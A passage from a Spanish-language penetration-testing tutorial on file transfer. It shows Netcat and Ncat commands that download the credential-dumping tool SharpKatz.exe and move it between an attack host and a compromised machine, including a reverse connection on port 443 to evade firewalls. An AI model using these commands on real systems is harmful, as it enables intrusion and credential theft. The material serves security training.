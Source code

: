 Desde nuestra máquina de ataque, nos conectaremos a la máquina comprometida en el puerto 8000 usando Netcat y enviaremos el archivo [SharpKatz.exe](https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.7_x64/SharpKatz.exe) como input a Netcat. La opción `-q 0` le indicará a Netcat que cierre la conexión una vez que termine. De esa manera, sabremos cuándo se completó la transferencia de archivos.

### Netcat - Attack Host - Enviando Archivo a la Máquina Comprometida

```r
wget -q https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.7_x64/SharpKatz.exe
# Example using Original Netcat
nc -q 0 192.168.49.128 8000 < SharpKatz.exe
```

Utilizando Ncat en nuestra máquina de ataque, podemos optar por `--send-only` en lugar de `-q`. La flag `--send-only`, cuando se usa tanto en modos de conexión como de escucha, indica a Ncat que termine una vez que se agote su input. Normalmente, Ncat seguiría funcionando hasta que se cierre la conexión de red, ya que el lado remoto podría transmitir datos adicionales. Sin embargo, con `--send-only`, no hay necesidad de anticipar más información entrante.

### Ncat - Attack Host - Enviando Archivo a la Máquina Comprometida

```r
wget -q https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.7_x64/SharpKatz.exe
# Example using Ncat
ncat --send-only 192.168.49.128 8000 < SharpKatz.exe
```

En lugar de escuchar en nuestra máquina comprometida, podemos conectarnos a un puerto en nuestra máquina de ataque para realizar la operación de transferencia de archivos. Este método es útil en escenarios donde hay un firewall bloqueando conexiones entrantes. Escuchemos en el puerto 443 en nuestro Pwnbox y enviemos el archivo [SharpKatz.exe](https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.7_x64/SharpKatz.exe) como input a Netcat.

### Attack Host - Enviando Archivo como Input a Netcat

```r
# Example using Original Netcat
sudo nc -l -p 443 -q 0 < SharpKatz.exe
```

### Máquina Comprometida Conectándose a Netcat para Recibir el Archivo

```r
victim@target:~$ # Example using Original Netcat
victim@target:~$ nc 192.168.49.128 443 > SharpKatz.exe
```

Hagamos lo mismo con Ncat:

### Attack Host - Enviando Archivo como Input a Ncat
